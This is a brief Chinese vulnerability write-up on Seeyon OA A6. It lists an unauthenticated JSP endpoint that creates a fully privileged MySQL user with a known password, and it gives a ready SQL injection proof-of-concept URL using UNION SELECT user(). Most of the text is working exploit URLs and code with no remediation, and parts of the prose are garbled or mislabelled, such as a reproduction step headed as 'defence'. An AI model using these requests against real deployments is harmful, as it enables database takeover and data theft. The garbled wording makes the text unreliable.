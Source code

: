 ```yaml
---
title: 致远OA A6 重置数据库账号密码漏洞
id: zhfly3349
---
```


# 致远OA A6 重置数据库账号密码漏洞

## 一、漏洞简介

## 二、漏洞影响

致远OA A6

## 三、复现过程

### 重置数据库账号密码防御

```
http://www.0-sec.org/yyoa/ext/byoa/start.jsp 
```

该文件的代码为：

```
<%	Connection conn = null;	PreparedStatement pstmt = null;	String sql = "create user byoa IDENTIFIED by 'byoa'";	try {		conn = null;//net.btdz.oa.common.ConnectionPoolBean.getConnection();		pstmt = conn.prepareStatement(sql);		out.print(pstmt.executeUpdate());		sql = "grant all on *.* to byoa";		pstmt = conn.prepareStatement(sql);		out.println(pstmt.executeUpdate());		pstmt.close();		sql = "update mysql.user set password=password('byoa') where user='byoa'";		pstmt = conn.prepareStatement(sql);		out.println(pstmt.executeUpdate());		pstmt.close();		sql = "flush privileges";		pstmt = conn.prepareStatement(sql);		out.print(pstmt.executeUpdate());		pstmt.close();		//conn.close();	} catch (Exception ex) {					out.println(ex.getMessage());	}%> 
```

可以抛光该文件没有验证任何权限，便进行了重置数据库用户byoa的密码为：byoa

### mysql + jsp注射

```
http://www.0-sec.org/yyoa/ext/trafaxserver/ExtnoManage/isNotInTable.jsp 
```

### poc

```
http://www.0-sec.org/yyoa/ext/trafaxserver/ExtnoManage/isNotInTable.jsp?user_ids=(17) union all select user()%23{'success':false,'errors':'root@localhost'} 
```